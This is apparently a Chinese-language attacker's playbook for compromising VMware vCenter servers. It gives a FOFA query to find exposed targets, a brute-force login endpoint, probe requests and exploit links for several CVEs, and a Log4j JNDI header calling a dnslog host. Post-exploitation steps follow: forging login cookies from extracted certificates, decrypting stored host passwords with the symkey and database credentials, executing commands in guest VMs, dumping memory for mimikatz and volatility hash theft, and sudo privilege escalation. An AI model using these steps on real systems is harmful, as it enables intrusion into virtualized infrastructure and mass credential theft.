vmware vcenter
目录
集中管理虚拟机
fofa：
title="+ ID_VC_Welcome +"
虚拟机管理平台
首页长这样

默认密码
查看版本
POST /sdk HTTP/1.1
Host: xx
Content-Type: application/x-www-form-urlencoded
Content-Length: 373
<env:Envelope xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:env="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
<env:Body>
<RetrieveServiceContent xmlns="urn:vim25">
<_this type="ServiceInstance">ServiceInstance</_this>
</RetrieveServiceContent>
</env:Body>
</env:Envelope>

也可以get请求
https://ip:port/sdk/vimServiceVersions.xml

密码爆破接口
POST /ui/certificate-ui/ctrl/vecs/login HTTP/1.1
Host: xx
Content-Type: application/json
Content-Length: 86
{"server":"localhost","userName":"administrator@qiqing.local","password":"1qaz!QAZ.."}
注：使⽤BurpSuite爆破时，因为密码有时会有特殊字符 ，例如` ./=<>?+& *;:"{}|^``，将会被 URL编码。爆破密码时去掉此选项:
返回登录失败的响应包

rce
综合利用工具https://github.com/Schira4396/VcenterKiller(没有检测功能)
CVE-2021-21972
- vCenter Server7.0 < 7.0.U1c
- vCenter Server6.7 < 6.7.U3l
- vCenter Server6.5 < 6.5.U3n
/ui/vropspluginui/rest/services/uploadova
访问上面的路径，如果404，则代表不存在漏洞，如果405 则可能存在漏洞

exp:https://github.com/NS-Sp4ce/CVE-2021-21972
python3 ./CVE-2021-21972.py -url 10.23.2.10
CVE-2021-21985
poc：返回200说明能搞
# curl -s -k -X $'POST' -H $'Host: <target>' -H $'User-Agent: a' -H $'Content-Type: application/json' -H $'Connection: close' --data-binary $'{\"methodInput\":[{\"type\":\"ClusterComputeResource\",\"value\": null,\"serverGuid\": null}]}\x0d\x0a' $'https://<target>/ui/h5-vsan/rest/proxy/service/com.vmware.vsan.client.services.capability.VsanCapabilityProvider/getClusterCapabilityData'
exp：https://github.com/xnianq/cve-2021-21985_exp 或者vcenterkiller
CVE-2021-22005
- vCenter Server 7.0 < 7.0 U2c build-18356314
- vCenter Server 6.7 < 6.7 U3o build-18485166
- Cloud Foundation (vCenter Server) 4.x < KB85718 (4.3)
- Cloud Foundation (vCenter Server) 3.x < KB85719 (3.10.2.2)
- 6.7 vCenters Windows版本不受影响
exp:
https://github.com/shmilylty/cve-2021-22005-exp
CVE-2021-44228 log4j对vcenter的攻击
GET /websso/SAML2/SSO/vsphere.local?SAMLRequest= HTTP/1.1
Host: 192.168.121.137
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Dnt: 1
X-Forwarded-For: ${jndi:ldap://9qphlt.dnslog.cn}
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
xxf头dnslog有回显就有说法
然后使用jndiexploit搭建恶意jndi服务器进行攻击。
https://github.com/WhiteHSBG/JNDIExploit
rce后获取web控制台权限
重置密码
使用vcenter的admin工具
#Linux
/usr/lib/vmware-vmdir/bin/vdcadmintool
#Windows
C:\Program Files\Vmware\vCenter Server\vmdird\vdcadmintool.exe

cookie登录
通过解密数据库登录获取cookie，再用cookie登录web
数据库位置 linux：/storage/db/vmware-vmdir/data.mdb windows：C:\ProgramData\VMware\vCenterServer\data\vmdird\data.mdb
1。然后用这个工具https://github.com/horizon3ai/vcenter_saml_login 获得cookie
python vcenter_saml_login.py -p data.mdb -t 10.9.16.11

注
windows运行脚本需要安装对应版本的python-ldap，windows的data.mdb一般很大拉回来不方便（几百兆到几个G）
https://www.lfd.uci.edu/~gohlke/pythonlibs/#python-ldap1
pip install python_ldap-3.4.0-cp38-cp38-win_amd64.whl
pip install -r requirements.txt
2。如果目标环境有python，那就不用拉回来解密了，用这个脚本https://github.com/3gstudent/Homework-of-Python/blob/master/vCenter_ExtraCertFromMdb.py
运行后生成三个证书

把三个证书拖回来（只有几k，一下就拖回来了），然后用这个脚本获取cookie
https://github.com/3gstudent/Homework-of-Python/blob/master/vCenter_GenerateLoginCookie.py

这个脚本的参数列表
<target> <hostname> <domain> <idp_cert path> <trusted_cert_1 path> <trusted_cert_2 path>
其中domain可以通过vCenter_ExtraCertFromMdb.py脚本获得
hostname是主机名
数据库直接解密密码
1。获取解密key
#Windows
type C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\ssl\symkey.dat
#Linux
cat /etc/vmware-vpx/ssl/symkey.dat

把key保存下来
2。获取数据库账户密码
vcenter默认数据库文件存放在vcdb.properties，配置文件中有数据库的明文账号密码
#Linux
cat /etc/vmware-vpx/vcdb.properties
cat /etc/vmware/service-state/vpxd/vcdb.properties
#Windows
type C:\ProgramData\VMware\"VMware VirtualCenter"\vcdb.properties
type C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties

3。登录数据库
默认是postgresql
#psql默认存放位置
Windows: C:\Program Files\VMware\vCenter Server\vPostgres\bin\psql.exe
Linux: /opt/vmware/vpostgres/9.3/bin/psql
#执行语句查询
psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;" > password.enc
#执行完会输出一段加密字段
Command> shell psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;" > password.enc
Shell access is granted to root
Password for user vc:
ip_address | user_name | password
-------------+-----------+---------------------------------------------------------------------------------------
192.168.1.1 | vpxuser | *H8BBiGe3kQqaujz3ptZvzhWXXZ0M6QOoOFIKL0p0cUDkWF/iMwikwt7BCrfEDRnXCqxoju4t2fsRV3xNMg==
192.168.1.2 | vpxuser | *zR20RvimwMPHz7U6LJW+GnmLod9pdHpdhIFO+Ooqk0/pn2NGDuKRae+ysy3rxBdwepRzNLdq6+paOgi54Q==
192.168.1.3 | vpxuser | *Q81OIBXziWr0orka0j++PKMSgw6f7kC0lCmITzSlbl/jCDTuRSs07oQnNFpSCC6IhZoPPto5ix0SccQPDw==
192.168.1.4 | vpxuser | *R6HqZzojKrFeshDIP8vXPMhN28mLDHiEEBSXWYXNHrQQvHcuLOFlLquI2oLRfqLiPlHwkmAxUj9hKj3VZA==
(4 rows)
#只保留password字段
*H8BBiGe3kQqaujz3ptZvzhWXXZ0M6QOoOFIKL0p0cUDkWF/iMwikwt7BCrfEDRnXCqxoju4t2fsRV3xNMg==
*zR20RvimwMPHz7U6LJW+GnmLod9pdHpdhIFO+Ooqk0/pn2NGDuKRae+ysy3rxBdwepRzNLdq6+paOgi54Q==
*Q81OIBXziWr0orka0j++PKMSgw6f7kC0lCmITzSlbl/jCDTuRSs07oQnNFpSCC6IhZoPPto5ix0SccQPDw==
*R6HqZzojKrFeshDIP8vXPMhN28mLDHiEEBSXWYXNHrQQvHcuLOFlLquI2oLRfqLiPlHwkmAxUj9hKj3VZA==
如果是mssql，这时候直接使用 navicat 进行连接，搜索 VPX_HOST 表

其它数据库就用navicat连慢慢找吧，实战遇到再来补充。
只把password保留下来即可
4。解密密码
https://github.com/shmilylty/vhost_password_decrypt

然后拿去登录即可
获取web控制台后
获取虚拟机权限
远程dump - windows
https://github.com/RicterZ/PySharpSphere
使用该工具即可直接操控vcenter中的虚拟机，很方便。
$ pysharpsphere -H 192.168.3.249 -u opsadmin@vsphere.local -p 123QWEasd@ execute -t vm-13 --guest-user administrator --guest-ntlm ccf9155e3e7db453aad3b435b51404ee -c whoami
pysharpsphere -H 192.168.100.49 -u administrator@vsphere.local -p password execute -t vm-1020 --guest-user administrator --guest-pass guestpassword -c whoami
但是没有虚拟机的密码或者hash值，也就不能在虚拟机中执行命令。
要获取虚拟机密码或者hash我们可以把虚拟机dump出来
pysharpsphere -H 192.168.100.49 -u administrator@vsphere.local -p password dump -t vm-1020
然后使用volatility抓去密码或者hash https://www.volatilityfoundation.org/26
#获取镜像信息：
./vol -f win2k03-Snapshot1.vmem imageinfo
#抓hash
./vol -f win2k03-Snapshot1.vmem --profile=Win2003SP1x64 hashdump
#抓取明文密码-如果有
./vol -f win2k03-Snapshot1.vmem --profile=Win2003SP1x64 lsadump
快照dump - windows
#1、在web页面右键虚拟机生成虚拟机快照，然后在数据存储中找到对应的虚拟机名字的文件夹下会生成两个vmem vmsn文件
#？ 也可以直接用上一步的volatity直接dump hash
#2、用vss2core 整合两个文件，出现dump文件，把dump文件拉回来本地 https://flings.vmware.com/vmss2core
vss2core -W 1.vmem 1.vmsn
PS：如果目标是2012,2016,2019,Windows 8/8.1 请把-W 改成-W8
#3、然后用windbg preview打开，注意一定要最新版win10的，随便下一个旧版的不行
#4、在windbg上载入mimikatz
.load D:\tmpdump\mimilib.dll
#5、导出lsass.exe的内存、这里会返回一个process地址
!process 0 0 lsass.exe
#6、到对应内存位置执行mimikatz，然后就会出密码了
.process /r /p ffffa68274d8a080
!mimikatz
linux直接修改密码
本质上就是linux忘记密码了怎么办，我看网上有很多方法可以搞。这里只说一个centos的，ubuntu啥的也是大同小异：https://zhuanlan.zhihu.com/p/145417594（ubuntu忘记密码怎么办）
需重启，但可以复制一个再重启，以免生产环境g了。
在开机界面按字母e进入引导

在linux16这一行找到“ro” ，将 “ro” 修改为 ” rw init=/sysroot/bin/bash “；

然后按下ctrl+x进入救援模式，输入如下命令
chroot /sysroot
passwd root //重置密码
touch /.autorelabel
exit
reboot -f
重启后就能拿密码登录了
提权
CVE-2021-3156
适用版本：vCenter 7.0
sudo 提权漏洞将 vsphere-ui 权限提升到 root 权限。
https://github.com/worawit/CVE-2021-3156/tree/main
Choosing exploit
For Linux distributions that glibc has tcache support and enabled (CentOS 8, Ubuntu >= 17.10, Debian 10):
try exploit_nss.py first
If an error is not glibc tcache related, you can try exploit_timestamp_race.c next
For Linux distribution that glibc has no tcache support:
if a target is Debian 9, Ubuntu 16.04, or Ubuntu 14.04, try exploit_nss_xxx.py for specific version first
next, try exploit_defaults_mailer.py. If you know a target sudo is compiled with --disable-root-mailer, you can skip this exploit. The exploit attempt to check root mailer flag from sudo binary. But sudo permission on some Linux distribution is 4711 (-rws--x--x) which is impossible to check on target system. (Known work OS is CentOS 6 and 7)
last, try exploit_userspec.py